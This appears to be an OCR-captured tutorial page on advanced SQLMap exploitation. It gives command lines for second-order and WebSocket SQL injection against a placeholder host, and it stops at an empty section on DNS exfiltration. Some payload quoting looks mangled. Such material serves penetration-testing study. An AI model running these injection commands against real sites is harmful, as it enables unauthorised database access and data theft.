 # Advanced SQLMap Techniques and Web Application Exploitation

## Overview
This document covers advanced SQLMap usage including second-order injections, WebSocket attacks, DNS exfiltration, WAF bypass techniques, and sophisticated exploitation scenarios.

## Advanced SQLMap Techniques

### Second-Order SQL Injection
**Objective**: Exploit SQL injection vulnerabilities that occur in a different location than where the payload is injected

**Techniques**:
```bash
# Basic second-order injection
sqlmap -u "http://target.com/register.php" --data="username=admin'&password=test&email=test@test.com" --second-order="http://target.com/profile.php"

# Second-order with authentication
sqlmap -u "http://target.com/register.php" --data="username=admin'&password=test" --second-order="http://target.com/admin/users.php" --cookie="PHPSESSID=abc123"

# Second-order with custom headers
sqlmap -u "http://target.com/api/register" --data='{"username":"admin'''","password":"test"}' --second-order="http://target.com/api/profile" --headers="Content-Type: application/json"

# Second-order with file upload
sqlmap -u "http://target.com/upload.php" --data="filename=test'&content=data" --second-order="http://target.com/files.php"
```

### WebSocket SQL Injection
**Objective**: Exploit SQL injection through WebSocket connections

**Techniques**:
```bash
# WebSocket injection with custom script
sqlmap -u "ws://target.com/websocket" --data='{"action":"search","query":"test"}' --technique=U

# WebSocket with authentication token
sqlmap -u "wss://target.com/api/ws" --data='{"token":"jwt_token","query":"admin'''"}' --headers="Authorization: Bearer token123"

# WebSocket with binary data
sqlmap -u "ws://target.com/binary" --data="binary_payload_with_injection" --binary-fields="query"
```

### DNS Exfiltration with SQLMap
**Objective**: Use DNS queries to exfiltrate data when direct output is not possible
